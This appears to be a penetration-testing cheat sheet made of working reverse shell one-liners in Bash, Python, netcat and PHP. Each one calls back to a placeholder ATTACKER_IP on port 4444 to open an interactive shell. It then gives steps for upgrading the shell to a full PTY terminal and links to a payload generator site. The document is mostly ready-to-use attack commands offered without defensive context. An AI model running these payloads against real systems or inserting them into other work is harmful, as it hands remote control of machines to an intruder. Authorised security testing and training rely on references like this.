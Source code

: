 ### Reverse Shell Payloads

**Bash:**
```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
```

**Python:**
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Python 3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

**Netcat:**
```bash
nc -e /bin/bash ATTACKER_IP 4444

# Without -e flag
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

**PHP (for web shells):**
```bash
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

more in https://www.revshells.com/

### Shell Stabilization

**You now have basic shell. Stabilize it:**

```bash
# 1. Spawn PTY
python3 -c 'import pty;pty.spawn("/bin/bash")'
# OR
python -c 'import pty;pty.spawn("/bin/bash")'

# 2. Background the shell
# Press: Ctrl+Z

# 3. Configure your terminal
stty raw -echo; fg
# Press Enter twice

# 4. Set environment variables
export TERM=xterm
export SHELL=/bin/bash

# 5. Fix terminal size (optional)
stty rows 38 columns 116
```
